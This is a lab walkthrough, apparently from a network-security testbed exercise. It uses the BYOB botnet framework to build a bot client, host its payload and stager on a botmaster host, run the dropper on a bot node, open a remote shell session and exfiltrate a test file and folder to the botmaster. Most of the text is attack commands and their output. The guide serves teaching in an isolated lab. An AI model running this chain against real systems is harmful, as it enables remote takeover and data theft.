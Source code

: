 ## Exfiltration Attack
The data is exfiltrated from bot nodes (`b1` in our case) to botmaster (`botmaster` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 exfiltrate
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'exfiltrate' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have created `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt

rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Exfiltrate from b1 to botmaster
On botmaster node where the server is running, type the command:

```shell
[ 0 @ /home/rishitsaiya ]>upload test.txt

Upload complete

[ 0 @ /home/rishitsaiya ]>upload test_dir

Upload complete
```

It should look like this.

#### Access Exfiltrated data at botmaster
At the botmaster node, check the directory called `output`. There should files with encoded names in `output` directory.

```shell
rishitsaiya@botmaster:/opt/byob/byob$ cd output/
rishitsaiya@botmaster:/opt/byob/byob/output$ ls
8ky..txt  rha..zip
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ cat 8ky..txt 
This is a test file.
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ unzip rha..zip 
Archive:  rha..zip
 extracting: test_dir/test.txt       
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ ls
8ky..txt  rha..zip  test_dir
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output$ cd test_dir/
rishitsaiya@botmaster:/opt/byob/byob-bcs/byob/output/test_dir$ cat test.txt 
This is a test file.
```

The file `test.txt` becomes `8ky..txt` when exfiltrated. There can be other names too, but the content of the file and file formats remains uncorrupted. The directory `test_dir` when exfiltrated from the `b1` to `botmaster` is programmed to get zipped and exfiltrated and hence it becomes `rha..zip`.

